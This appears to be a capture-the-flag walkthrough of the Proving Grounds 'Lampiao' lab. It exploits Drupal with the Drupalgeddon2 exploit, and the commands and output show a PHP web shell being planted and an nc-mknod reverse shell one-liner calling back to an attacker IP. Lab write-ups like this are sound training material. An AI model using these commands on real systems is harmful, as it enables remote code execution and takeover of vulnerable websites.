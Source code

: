 ```yaml
---
layout: default
title: Drupal
parent: Web Exploits
nav_order: 6
---
```


# Drupal

---

Example from _Proving Grounds Play - Lampiao_

Looking at _/profiles_ we see _/testing_ and several files including a _testing.info_ file.

![profiles](../../../../assets/images/ctfs/proving_grounds/lampiao/profiles.png)

This indicates the version of Drupal is _7.5_

![version](../../../../assets/images/ctfs/proving_grounds/lampiao/version.png)

# Exploitation

---

This version should be vulnerable to _Drupalgeddon2_ which there is an RCE exploit in _searchsploit_

![searchsploit](../../../../assets/images/ctfs/proving_grounds/lampiao/searchsploit.png)

Copy the _44449.rb_ exploit to the current directory.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/lampiao]
└─$ searchsploit -m 44449.rb
  Exploit: Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/44449
     Path: /usr/share/exploitdb/exploits/php/webapps/44449.rb
    Codes: CVE-2018-7600
 Verified: True
File Type: Ruby script, ASCII text
Copied to: /home/vagrant/Documents/PG/PLAY/lampiao/44449.rb


```

This exploit requires the _highline_ gem.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/lampiao]
└─$ sudo gem install highline
Fetching highline-2.1.0.gem
Successfully installed highline-2.1.0
Parsing documentation for highline-2.1.0
Installing ri documentation for highline-2.1.0
Done installing documentation for highline after 1 seconds
1 gem installed

```

Now we can run the exploit and get a reverse shell.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/lampiao]
└─$ ruby 44449.rb http://192.168.226.48:1898
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.226.48:1898/
--------------------------------------------------------------------------------
[+] Found  : http://192.168.226.48:1898/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo OXGANKQN
[+] Result : OXGANKQN
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://192.168.226.48:1898/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://192.168.226.48:1898/shell.php' -d 'c=hostname'
lampiao>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Get a Stable Shell

---

Use _revshellgen_ to generate a _nc-mknod_ reverse shell one-liner.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/lampiao]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

```

Run this one-liner in the PHP shell on the target.

```bash
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!

lampiao>> rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l
[!] WARNING: Detected an known bad character (>)

```

We get a reverse shell on our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/lampiao]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.226.48] 56476
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
